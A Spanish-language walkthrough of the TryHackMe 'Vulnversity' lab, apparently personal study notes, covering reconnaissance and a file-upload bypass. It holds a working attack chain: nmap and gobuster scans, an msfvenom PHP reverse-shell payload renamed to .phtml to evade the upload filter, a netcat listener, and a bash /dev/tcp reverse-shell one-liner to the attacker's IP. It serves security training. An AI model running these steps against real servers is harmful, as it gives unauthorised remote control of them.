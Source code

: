 Maquinas a utilizar **Kali Linux y** [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

  

Es posible que en diversas ocasiones no podamos subir directamente un archivo en .php dentro de un panel de subida de archivos, por lo que tenemos que encontrar la forma de hacer un bypass de este tipo de restricciones; y una de las posibles formas es cambiar la extensión de nuestro payload, para que no sea .php pero que a su vez también funcione con php.

  

- Configuración del laboratorio.
    
    - Antes de arrancar nuestra Kali Linux ponemos nuestro adaptador de red como adaptador puente . Y arrancamos la maquina.
        
        ![[Imagenes/image 34.png|image 34.png]]
        
    
      
    
    - Entramos en la web de la maquina vulnversity y nos registremos .
    - Nos vamos al botón Access Machines en la parte superior de la pagina.
        
        ![[Imagenes/image 1 23.png|image 1 23.png]]
        
    - Escogemos Linux y pulsamos al enlace Download donde nos descargara un archivo para una conexión VPN.
    - Copiamos el archivo al escritorio de nuestra maquina Kali Linux.
    - Abrimos un terminal y ejecutamos el siguiente comando como **root**.
        
        ![[Imagenes/image 2 22.png|image 2 22.png]]
        
          
        
        ![[Imagenes/image 3 21.png|image 3 21.png]]
        
    
      
    
    - Pulsamos en Start Machine
        
        ![[Imagenes/image 4 20.png|image 4 20.png]]
        
    
      
    
    - Esperamos hasta que nos muestre la IP de nuestra maquina victima.
        
        ![[Imagenes/image 5 19.png|image 5 19.png]]
        
          
        
    - Sin cerrar el terminal que tenemos abierto. Abrimos otra terminal en nuestra maquina Kali. y hacemos un ping a nuestra maquina victima para verificar la conectividad.
        
        ```Bash
        ping -c 1 10.10.191.250 
        ```
        
        ![[Imagenes/image 6 17.png|image 6 17.png]]
        
          
        
    - Como estamos a través de un VPN si hacemos un `ifconfig` nos mostrara una **nueva interface de red** llamada **turn0**. Que es la que vamos a utilizar y nuestra IP será en mi caso **10.21.166.149.**
        
        ![[Imagenes/image 7 15.png|image 7 15.png]]
        

  

---

  

- Vamos hacer un nmap a la maquina victima.
    
    ```Bash
    nmap -p- -sS -sV -sC --open -min-rate 5000 -n -vvv -Pn 10.10.191.250
    ```
    
    ![[Imagenes/image 8 14.png|image 8 14.png]]
    
    Nos fijamos que tiene levantado un **servidor web en el puerto 3333**.
    
      
    
- Abrimos el navegador y copiamos la IP de la maquina victima en la URL. Pero como el servidor web no esta corriendo por el puerto 80 que es el de por defecto debemos indicarle el puerto.
    
    `**http://10.10.191.250:3333/**`
    
    ![[Imagenes/image 9 13.png|image 9 13.png]]
    

  

- Hacemos **Fuzzing Web** utilizando la IP de la maquina victima y el puerto donde esta corriendo el servidor web.
    
    ```Bash
    gobuster dir -u http://10.10.191.250:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![[Imagenes/image 10 13.png|image 10 13.png]]
    
    Nos encontró un directorio que se llama internal
    
- Probamos la URL en el navegador web
    
    ![[Imagenes/image 11 10.png|image 11 10.png]]
    

Tenemos un panel de subidas de archivos. Podríamos crear un php malicioso con msfvenom para tener control remoto de la maquina. Pero esto en ocasionas no es posible por que la web tiene algún tipo de limitador que impide subir archivos en php, algo normal por que dejar subir archivos php es un fallo de seguridad.

Vamos a intentar hacer un bypass a esta limitación.

  

- Creamos con msfvenom un playload con extensión php.
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![[Imagenes/image 12 10.png|image 12 10.png]]
    
      
    
- Le cambiamos **la extensión a phtml que a efectos prácticos seria como si fuera php.**
    
    ```Bash
    mv pwned2.php pwned2.phtml
    ```
    
    ![[Imagenes/image 13 10.png|image 13 10.png]]
    

  

- Vamos a subirlo por la pagina web.
    
    ![[Imagenes/image 14 8.png|image 14 8.png]]
    

  

- Volvemos a hacer **Fuzzing Web** pero esa vez dentro del directorio **internal** para ver si encontramos donde guarda los archivos.
    
    ```Bash
    gobuster dir -u http://10.10.191.250:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![[Imagenes/image 15 7.png|image 15 7.png]]
    

  

- Escribimos en el navegador la URL `http://10.10.191.250:3333/internal/uploads/`
    
    ![[Imagenes/image 16 4.png|image 16 4.png]]
    
- Ponemos netcat a la escucha en el puerto que habíamos escogido en msfvenom.
    
    ```Bash
    nc -nlvp 443
    ```
    

  

- Ejecutamos nuestro archivo en el navegador y tendríamos la conexión
    
    ![[Imagenes/image 17 3.png|image 17 3.png]]
    
- Recordemos que las conexiones con netcat y msfvenom no duran mucho tiempo así que tenemos que estabilizarla.
    
    - En otra terminal nos ponemos a la escucha en otro puerto , por ejemplo en el 444
    - Usaremos la web **[Online - Reverse Shell Generator](https://www.revshells.com/)** para crear la revershell.
        
        ![[Imagenes/image 18 2.png|image 18 2.png]]
        
          
        
    - En la conexión del puerto 443 escribimos lo siguiente:
        
        `bash -c "``**sh**` `-i >& /dev/tcp/``**10.21.166.149**``/``**444**` `0>&1"`  
          
        
        ![[Imagenes/image 19 2.png|image 19 2.png]]
        
    
      
    
    - Ya tendíamos una conexión estable.
        
        ![[Imagenes/image 20 2.png|image 20 2.png]]